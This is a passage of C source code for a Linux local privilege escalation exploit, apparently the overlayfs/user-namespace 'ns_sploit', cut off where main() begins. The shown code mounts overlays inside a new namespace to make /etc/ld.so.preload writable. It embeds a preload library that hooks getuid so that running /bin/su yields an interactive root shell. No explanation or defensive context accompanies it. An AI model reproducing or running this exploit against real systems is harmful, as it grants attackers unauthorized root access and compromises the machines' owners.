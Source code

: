 ```
#include <sched.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/types.h>
#include <signal.h>
#include <fcntl.h>
#include <string.h>
#include <linux/sched.h>

#define LIB "#include <unistd.h>\n\nuid_t(*_real_getuid) (void);\nchar path[128];\n\nuid_t\ngetuid(void)\n{\n_real_getuid = (uid_t(*)(void)) dlsym((void *) -1, \"getuid\");\nreadlink(\"/proc/self/exe\", (char *) &path, 128);\nif(geteuid() == 0 && !strcmp(path, \"/bin/su\")) {\nunlink(\"/etc/ld.so.preload\");unlink(\"/tmp/ofs-lib.so\");\nsetresuid(0, 0, 0);\nsetresgid(0, 0, 0);\nexecle(\"/bin/sh\", \"sh\", \"-i\", NULL, NULL);\n}\n    return _real_getuid();\n}\n"

static char child_stack[1024*1024];

static int
child_exec(void *stuff)
{
    char *file;
    system("rm -rf /tmp/ns_sploit");
    mkdir("/tmp/ns_sploit", 0777);
    mkdir("/tmp/ns_sploit/work", 0777);
    mkdir("/tmp/ns_sploit/upper",0777);
    mkdir("/tmp/ns_sploit/o",0777);

    fprintf(stderr,"mount #1\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/proc/sys/kernel,upperdir=/tmp/ns_sploit/upper") != 0) {
// workdir= and "overlay" is needed on newer kernels, also can't use /proc as lower
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/sys/kernel/security/apparmor,upperdir=/tmp/ns_sploit/upper,workdir=/tmp/ns_sploit/work") != 0) {
            fprintf(stderr, "no FS_USERNS_MOUNT for overlayfs on this kernel\n");
            exit(-1);
        }
        file = ".access";
        chmod("/tmp/ns_sploit/work/work",0777);
    } else file = "ns_last_pid";

    chdir("/tmp/ns_sploit/o");
    rename(file,"ld.so.preload");

    chdir("/");
    umount("/tmp/ns_sploit/o");
    fprintf(stderr,"mount #2\n");
    if (mount("overlay", "/tmp/ns_sploit/o", "overlayfs", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc") != 0) {
        if (mount("overlay", "/tmp/ns_sploit/o", "overlay", MS_MGC_VAL, "lowerdir=/tmp/ns_sploit/upper,upperdir=/etc,workdir=/tmp/ns_sploit/work") != 0) {
            exit(-1);
        }
        chmod("/tmp/ns_sploit/work/work",0777);
    }

    chmod("/tmp/ns_sploit/o/ld.so.preload",0777);
    umount("/tmp/ns_sploit/o");
}

int
main(int argc, char **argv)
{
```